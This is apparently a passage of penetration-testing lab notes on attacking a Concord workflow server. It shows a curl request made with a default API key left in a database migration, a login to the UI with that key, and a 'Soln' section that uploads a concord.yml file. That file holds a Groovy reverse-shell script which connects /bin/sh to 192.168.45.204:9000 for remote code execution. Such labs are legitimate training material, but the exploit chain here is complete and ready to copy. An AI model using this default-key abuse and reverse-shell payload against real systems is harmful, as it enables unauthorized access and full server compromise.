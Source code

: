 In this migration, we discover that an API_KEYS table entry is inserted for the concordAgent user. Considering that this migration is sixty-eight revisions ahead of the previous migration, this value is more likely to still be present in the database. Let's attempt to use this API key with curl. This time, we'll start with the value commented out above the entry.

kali@kali:~/concord$ curl -H "Authorization: O+JMYwBsU797EKtlRQYu+Q" http://concord:8001/api/v1/apikey
[ {
  "id" : "4805382e-98bc-11eb-a54f-0242ac140003",
  "userId" : "d4f123c1-f8d4-40b2-8a12-b8947b9ce2d8",
  "name" : "key-1"
} ]
Listing 38 - Curl with Newly Discovered API Key

Excellent! We were able to successfully find a default user that was mistakenly left in by the developer and not regenerated during installation.

The Concord documentation states that it's possible to log in with an API token by appending "?useApiKey=true" to the login URL.

Figure 25: Login Via API Key
Figure 25: Login Via API Key
Let's try to log in to the UI using this API Key.

Figure 26: Successful Login
Figure 26: Successful Login
Using the API key, we were able to log in!

Soln for Obtain RCE with a curl request using the newly-discovered API key:
```
curl -F concord.yml=@concord.yml http://concord:8001/api/v1/process -vv -H "Authorization: O+JMYwBsU797EKtlRQYu+Q"
```
concord.yml
```
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "192.168.45.204";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();

```
